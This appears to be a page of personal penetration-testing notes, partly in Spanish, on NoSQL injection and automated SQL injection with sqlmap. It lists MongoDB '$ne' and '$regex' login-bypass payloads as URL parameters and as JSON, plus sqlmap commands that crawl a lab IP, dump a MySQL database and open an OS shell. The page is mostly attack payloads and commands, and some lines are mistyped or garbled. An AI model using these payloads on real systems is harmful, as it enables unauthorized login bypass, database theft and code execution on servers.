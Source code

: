 ```
usuarios que no son iguales ''
user->findone(array(
"username"=> "{$ne:''}"
));

```

## injection  php
url check if user exist
```
username[$ne]=RandomNoexiste&password[$ne]=noexiste
```

## injection with regex  php
```
check for 1 char and 4 char usernames
username[$regex]=^.{1}&password=noexist
username[$regex]=^.{4}&password=noexist
```

## node.js
1. change Content-type application/json
2. convert payload to json


```
{
"username": { "$ne": "RandomNOExiste"},
"passowrd": { "$ne": "ipssec"},
"login":"login"
}

```


# Automated sql injection tools [sqlmap]
---
buscar vulnerabilidades

```
root@kali: sqlmap -u http:192.168.30.35 --crawl=1
```
Sacando data
```
root@kali:sqlmap -u http://192.168.30.35/comment.php?id=839 --dbms=mysql --dump --threads=5
```

otros argumentos:

```
--os-shell: automatic code execution: os-shel> ipconfig ->succes
```

# RESOURCES
---
https://linuxhint.com/blind_sql_injection_tutorial/
